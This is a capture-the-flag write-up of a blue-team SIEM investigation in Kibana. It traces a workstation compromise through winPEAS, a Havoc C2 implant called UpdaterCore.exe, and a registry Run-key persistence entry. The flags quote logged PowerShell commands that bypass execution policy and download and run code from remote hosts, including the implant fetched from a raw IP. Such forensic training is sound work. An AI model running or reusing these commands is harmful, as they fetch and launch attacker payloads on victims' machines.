

# L0udBit

## L0udBit_01
> As in many companies, our victim company also does not have very well-tuned SIEM. Thousands and thousand of alerts for benign activities are generated every day. But some alerts are forwarded to the security admin's email. One of them is 'Potential PowerShell HackTool Script by Author' and notification with exactly this alert was the sign of a very long day for our admin. So grab some coffee and let's dig in. What is the @timestamp when this alert was first generated? Format: MMM dd, yyyy @ hh:mm:ss.sss

> Elastic SIEM / Kibana is available on the link below, credentials can be found in FAQ / Environment

> https://kibana.guardians.sk

We start by opening Kibana Security Alerts page and look for mentioned alert `Potential PowerShell HackTool Script by Author` where the first timestamp is our answer:

> Flag: `Jan 16, 2025 @ 17:17:47.751`

## L0udBit_02
> What is the severity of the alert?

Looking at the previous screenshot, we see severity is `high`.
> Flag: `high`

## L0udBit_03
> Who is the author of the rule?

Clicking on the rule name, opens the side panel where we can see the Author.

> Flag: `Elastic`

## L0udBit_04
> By the rule definition, it detects known PowerShell offensive tooling author's name in PowerShell scripts. Attackers commonly use out-of-the-box offensive tools without modifying the code. When examine the query carefully, we can see there are several strings it is trying to match in an event log. What is the exact string that matched this time?

By clicking first on rule definition, we can see all the strings it tries to match in `powershell.file.script_block_text` field (left screenshot). Then we open the alert details by clicking on the `View details` arrow under `Actions` and alert details panel will open on the left. There we switch to table view and search for `powershell.file.script_block_text` filed (right screenshot). By painstaking comparing the two as the autor or using some more intelligent approach, we see that matching sting is `funoverip`.

> Flag: `funoverip`

## L0udBit_05
> What is the event.provider of the original winlogbeat event, where this string was found?

By searching for `provider` in the alert details view, we have our next flag:

> Flag: `Microsoft-Windows-PowerShell`

## L0udBit_06
> What is the event.id of the original winlogbeat event, where this string was found?

Searching for `event.id` in the list of fields will not yield anything, but if we look for `event` and find `event.code` to be the answer:

> Flag: `4014`

## L0udBit_07
> What is the agent.hostname of the affected computer?

Searching for `agent.hostname` will result in `officeWin9`.

> Flag: `officeWin9`

## L0udBit_08
> What is the IP address of the officeWin9 computer? If it has more network adapters, enter the IP which is used for communication with outside world.

Looking for `ip` in the fields, we see several IPs some IPv4, some IPv6. Consuling the [environment](README.md#environment) we see that the office network is `192.168.12.0/24` so we try `192.168.12.119` and it is the correct answer.

> Flag: `192.168.12.119`

## L0udBit_09
> What is the name of the user who ran the suspicious powershell script from our initial alert?

Searching for `user.name` in the alert fields, we find `sidonia.borek`.

> Flag: `sidonia.borek`

## L0udBit_10
> What is the file.name of the suspicious powershell script?

Searching for `file.name` in the alert fields, we find `winPEAS.ps1`.

> Flag: `winPEAS.ps1`

## L0udBit_11
> What is the full file.path of the winPEAS.ps1 powershell script?

Searching for `file.path` will reveal `C:\Users\Public\winPEAS.ps1`.

> Flag: `C:\Users\Public\winPEAS.ps1`

## L0udBit_12
> What does winPEAS mean?

Googling this exact question will return answer: `Windows Privilege Escalation Awesome Scripts`.

> Flag: `Windows Privilege Escalation Awesome Scripts`

## L0udBit_13
> How the &#@*(# did this script get onto the workstation? What is the CreationUtcTime of the winPEAS.ps1 file? Use exact format as in the message.

For this we need to switch to different dashboard in Kibana so we can search for individual logs. Go to `Analytics->Discovery` and select `winlogbeat-*` in Data view. Then search for `event.category:"file"  AND "winPEAS.ps1"`, ensure timeframe is set to `Wargame`. Only one log will be found, open the log details and in the field search type `CreationUtcTime`.

> Flag: `2025-01-16 16:09:17.683`

## L0udBit_14
> What is the process.name of the process which created winPEAS.ps1 file?

Looking at the `process.name` field, we see it is `powershell.exe`.

> Flag: `powershell.exe`

## L0udBit_15
> What is the process.pid of the process which created winPEAS.ps1 file?

Search for `process.pid` in the log fields.

> Flag: `6068`

## L0udBit_16
> What is the url from which winPEAS.ps1 script was downloaded?

From previous step, we know that `powershell.exe` with `process.pid:6068` crated the file, so let's filter logs based on this process id and search for `winPEAS.ps1`. We also added useful fields as columns to our main log view to better identify interesting stuff, fields like `file.path`, `winlog.task`, `process.command_line`, `process.pid`, `process.name`, `process.parent.name`, `user.username` and `host.hostname` are among popular fields used.

Several logs are found, previous one for `File created` event but we also see some process creation events. By clicking on small arrow in top right corner of the `process.command_line` cell to expand the content, we see from where the file was originally downloaded from.

> Flag: `https://raw.githubusercontent.com/peass-ng/PEASS-ng/refs/heads/master/winPEAS/winPEASps1/winPEAS.ps1`

## L0udBit_17
> What was the full process.command_line to download and run winPEAS.ps1 script?

From previous step, we can just copy the contents of the `process.command_line` cell by expending the content and clicking on `Copy value`:

> Flag: `powershell  -Command "& {Set-ExecutionPolicy -Scope Process -ExecutionPolicy Bypass -Force; [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12; Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/peass-ng/PEASS-ng/refs/heads/master/winPEAS/winPEASps1/winPEAS.ps1' -OutFile 'C:\Users\Public\winPEAS.ps1'; powershell -ExecutionPolicy Bypass -File 'C:\Users\Public\winPEAS.ps1' > 'C:\Users\Public\peasout.txt'}"`

## L0udBit_18
> What was the process.parent.name of the powershell command from the previous question?

Searching for the `process.parent.name` in the log details, reveals the answer.

> Flag: `cmd.exe`

## L0udBit_19
> What was the process.parent.name of the cmd.exe from the previous question?

For this task, need to find the pid of the `cmd.exe` process from the previous task. For this we add field `process.parent.pid` in our log view and see that `cmd.exe` has pid `9104`. 

Now, we set filter `process.pid:9104` and listed logs will reveal the answer:

> Flag: `UpdaterCore.exe`

## L0udBit_20
> What is the process.executable of the UpdaterCore.exe?

For this we know from previous task that process `UpdatedCore.exe` had pid `6548`. We can now filter for `process.pid:6548` but that will return lot of logs from other hosts, so we add filter for `host.name:officewin9`:

This will return several logs, so looking at details of one and searching for field `process.executable` will show us the answer:

> Flag: `C:\Windows\System32\Microsoft\Crypto\RSA\MachineKeys\UpdaterCore.exe`

## L0udBit_21
> What is the md5 hash of the UpdaterCore.exe?

Looking for `md5` in the same log details, will provide the answer. 

NOTE: in our case `process.hash.md5` is equal to `file.hash.md5` of the executable because it was simply loaded and executed without in-memory modification. However, another way, and maybe more correct, was to filter for `host.name:officewin9` and `file.hash.md5:exists` and search for `UpdaterCore.exe`, which will find the answer:

> Flag: `cef02023b40e51c7e4779ac637e0501d`

## L0udBit_22
> What is the compilation timestamp of the UpdaterCore.exe? Format: YYYY-MM-DD HH:mm:ss UTC

Compilation timestamp of the `UpdaterCore.exe` will not be in the security logs. For this we need to employ [OSINT](https://en.wikipedia.org/wiki/Open-source_intelligence) technique and turn to our trusty [VirusTotal](https://www.virustotal.com/) where best is to search for the file by the file hash which we have from previous step.
Then looking at the `Details` tab on the VirusTotal page, we see `Compilation Timestamp` under `Portable Executable Info` section:

> Flag: `2025-01-16 11:15:36 UTC`

## L0udBit_23
> What is the name of the Crowdsourced IDS rule which would match traffic from this malicious process?

This one was interesting, never heard of `Crowdsourced IDS rules` but bit of googling and browsing through VirusTotal, answer was found under the `Behavior` tab of the VirusTotal page:

> Flag: `SSLBL: Malicious JA3 SSL-Client Fingerprint detected (TrickBot)`

## L0udBit_24
> UpdaterCore.exe is detected by many AVs as the popular C2 framework. What is the name of this framework?

For this we tried to use ChatGPT by asking following question: `UpdaterCore.exe file with hash 23da17a3484f8b5e9c4d8f20c56a4e87e41f10ab84ce68528ece4494c17c87d0 is detected by many AVs as the popular C2 framework. What is the name of this framework?` It responded with `Covenant` but that was not accepted. Then did some old fashioned googling for "C2 frameworks" and two names were popping up: `Covenant` and `Havoc`. Then realized that words `Havokiz` and `Havoc` appear in VirusTotal results... so tried `Havoc` and it was accepted.

NOTE: there is `Family labels` on the VirusTotal `Detection` page that also contained the answer:

> Flag: `havoc`

## L0udBit_25
> OSINT time :) What is the full name of the Havoc developer? Format: Name Surname

I'm not good at OSINT, always get tangled in some rabbit hole. First found the name of the author (Paul) on his web https://5pider.net/about and after reading his whole twitter feed, finally googled `havoc framework "Paul"` which brought me to https://havocframework.com/docs/welcome:

> Flag: `Paul Ungur`

## L0udBit_26
> When was the UpdaterCore.exe dropped on the file system? What is the CreationUtcTime of the UpdaterCore.exe?

Filter for `host.name:officewin9` and `event.categoryaction: File created (rule: FileCreate)` and search for `UpdaterCore.exe`, look for the `CreationUtcTime` in the log details:

> Flag: `2025-01-16 16:07:20.182`

## L0udBit_27
> What is the full process.command_line which was used to download and execute UpdaterCore.exe?

Searched for `UpdaterCore.exe` and filter `process.command_line:exists`. There were lot of logs so found the oldest one and looked at the log details:

> Flag: `"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -Command "& {Invoke-WebRequest -Uri 'http://72.21.192.5/UpdaterCore.exe' -OutFile 'c:\windows\system32\microsoft\crypto\rsa\machinekeys\UpdaterCore.exe';Start-Process -FilePath 'c:\windows\system32\microsoft\crypto\rsa\machinekeys\UpdaterCore.exe'}"`

## L0udBit_29
> What is the IP address to which UpdaterCore.exe established a network connection?

Search for `winlog.task : "Network connection detected (rule: NetworkConnect)" AND process.name:"UpdaterCore.exe"` and filter on `host.name:officewin9`.
Answer is in the `destination.ip` field:

> Flag: `87.250.250.42`

## L0udBit_30
> What is the geo country name where this IP is located?

We can use OSINT for this, but we can also use yet another Kibana data source `filebeat-*` where the network connections are logged by the company firewall.
When we search here for logs related to destination IP and the source IP of the `officewin9` PC: `destination.ip:"87.250.250.42"  and source.ip:"192.168.12.119"`, by looking at the log detail we see destination country name:

> Flag: `Russia`

## L0udBit_31
> Shortly after execution of UpdaterCore.exe, adversary made changes to the registry to make sure he will be able to get back to the system even after reboot. What is the full registry.path that was created?

Here we switch back to the `winlogbeat-*` data source and set filters for the `host.name:officewin9`. We can recall from previous tasks that `UpdaterCore.exe` had process.id `6548` ([L0udBit_20](#l0udbit_20)) and if we use that to filter and show the `registry.path` field we see several results:

However, those are not related to ensuring attacker will be able to get back to system after reboot. So we need to look further.  We can check if the `UpdaterCore.exe` created some child process that modified the registry, so we update the filter to `process.parent.pid:6548`. We noticed suspicious looking process `cmd.exe` that executed `reg add` command:

But we still do not see `registry.path`, so we go further, set `process.parent.pid:8172` to see if the `reg` process created the key but still no luck, but we see that the process id of `reg.exe` is `8124` so we set filter for `process.pid:8124` and finally we have records for `registry.path`:

NOTE: this could be also solved more quickly and intelligently by leveraging `MITRE ATT&CK` framework and looking under `Persistence` tactic ("be able to get back to the system"), under the `Boot or Logon Autostart Execution` technique ("even after reboot") and `Registry Run Keys / Startup Folder` sub-technique ("adversary made changes to the registry"): https://attack.mitre.org/techniques/T1547/001/. 
Right there the listed Windows `run keys` that will cause the program referenced to be executed when a user logs in. So, simply searching for `registry.path:*CurrentVersion\\Run*` would quickly reveal the correct answer.

> Flag: `HKU\S-1-5-21-2918068850-3100921079-2521427286-1308\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\WinUpadate`

